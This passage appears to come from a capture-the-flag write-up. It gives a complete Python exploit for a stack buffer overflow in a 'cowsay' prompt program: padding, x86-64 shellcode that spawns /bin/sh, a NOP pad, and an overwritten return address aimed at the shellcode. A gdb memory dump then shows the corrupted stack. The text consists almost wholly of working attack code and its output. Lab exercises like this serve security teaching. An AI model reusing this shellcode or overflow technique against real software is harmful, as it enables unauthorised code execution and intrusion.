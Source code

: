 ### New Python script

```python
import interact
import struct

# Pack integer 'n' into a 8-Byte representation
def p64(n):
    return struct.pack('Q', n)

# Unpack 8-Byte-long string 's' into a Python integer
def u64(s):
    return struct.unpack('Q', s)[0]

shellcode = "\x48\x31\xC0\x50\x49\xBA\xDE\x6A\x0F\x13\xDE\x8A\xDB\x23\x49\xB9\xF1\x45\x6D\x7A\xB0\xA5\xA8\x4B\x4D\x31\xCA\x41\x52\x48\x89\xE7\x48\x31\xF6\x48\x31\xD2\xB0\x3A\x04\x01\x0F\x05"

p = interact.Process()
data = p.readuntil('Enter a string to cowsay: ')
p.sendline('A' * 55 + shellcode + '\x90' * 4 + '\x90' * 16 + '\x98\xed\xff\xff\xff\x7f\x00\x00' )   # \x90 for byte alignment
                                                                                                    # \x98\xed\xff\xff\xff\x7f\x00\x00 is the memory address of where the shellcode starts
p.interactive()
```

In gdb, this would look like the following in memory:

```gdb
Breakpoint 2: 0x400baa, main+265
wdb> ni
0x400baf in main ()
wdb> x/48gx $rbp-0x100
0x7fffffffecd0: 0x4141414141414141    0x4141414141414141
0x7fffffffece0: 0x4141414141414141    0x4141414141414141
0x7fffffffecf0: 0x4141414141414141    0x4141414141414141
0x7fffffffed00: 0x4841414141414141    0x0f6adeba4950c031
0x7fffffffed10: 0xf1b94923db8ade13    0x4d4ba8a5b07a6d45
0x7fffffffed20: 0x48e789485241ca31    0x043ab0d23148f631
0x7fffffffed30: 0x9090909090050f01    0x9090909090909090
0x7fffffffed40: 0x9890909090909090    0x0000007fffffffed
0x7fffffffed50: 0x6f6f6f6f30306f6d    0x2e2e2e6f306f3030
0x7fffffffed60: 0x4141414141414120    0x4141414141414141
0x7fffffffed70: 0x4141414141414141    0x4141414141414141
0x7fffffffed80: 0x4141414141414141    0x4141414141414141
0x7fffffffed90: 0x4141414141414141    0x6adeba4950c03148    # Start of shellcode
0x7fffffffeda0: 0xb94923db8ade130f    0x4ba8a5b07a6d45f1
0x7fffffffedb0: 0xe789485241ca314d    0x3ab0d23148f63148
0x7fffffffedc0: 0x90909090050f0104    0x9090909090909090
0x7fffffffedd0: 0x9090909090909090    0x00007fffffffed98    # Overwitten Return address pointing to start of shellcode
```
